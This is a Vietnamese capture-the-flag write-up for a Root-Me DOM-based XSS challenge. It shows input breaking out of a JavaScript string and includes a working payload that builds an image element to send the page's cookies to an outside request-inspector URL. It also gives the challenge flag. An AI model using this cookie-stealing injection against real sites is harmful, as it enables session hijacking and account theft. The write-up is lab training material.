# Write up challenge XSS DOM Based - Introduction

Tác giả:
- **Nguyễn Mỹ Quỳnh**  

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction) 
 

Truy cập challenge ta thấy có một ô input cho nhập số

 

 

Tiến hành nhập thử thì nhận được thông báo sai



 

Inspect ta thấy input được truyền y nguyên vào chuỗi number. Có thể đây là lỗ hổng! 

 

  

Thử chèn câu lệnh alert bằng chèn dấu nháy đóng chuỗi và chèn tiếp câu lệnh theo sau 



 

Thật vậy có lỗ hổng!



 

Những gì cần làm sẽ là lợi dụng lỗ hổng này để chèn đoạn script đánh cắp cookie.

    ';document.write("");//



 

Tuy nhiên không thành công nhận được cookie, ta inspect tìm hiểu nguyên nhân thì thấy được là dấu `<` thẻ img đã được loại bỏ.

  

Không sao ta sẽ chèn hình ảnh bằng cách createElement bằng đoạn script sau 
    
   ';const My_img = document.createElement("img");var url = 'https://requestinspector.com/inspect/01fzg5c75hkg0yw6dcfzrgvybd?=';var cookie = document.cookie;url = url + cookie;My_img.src=url;document.body.appendChild(My_img);//
   



 

Thành công chèn ảnh



 

Nhận được request chứa cookie của user



 

Tiến hành gửi url chứa ảnh lỗi cho admin




 

Có được flag:


 

Submit thành công 



  

> **Flag:** rootme{XSS_D0M_BaSed_InTr0}

